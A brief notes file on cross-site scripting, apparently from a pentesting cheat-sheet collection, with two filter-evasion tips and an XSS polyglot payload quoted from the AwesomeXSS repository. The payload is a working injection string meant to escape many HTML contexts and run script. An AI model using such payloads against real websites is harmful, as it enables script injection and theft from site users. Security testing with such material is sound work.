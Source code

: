 # XSS


## XSS Tricks

fuff routes, if internal redirects
string.fromcharcode(xxx) to override \ /  filtering

### XSS Polyglot Payload
Src: https://github.com/s0md3v/AwesomeXSS#awesome-polyglots

```
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```
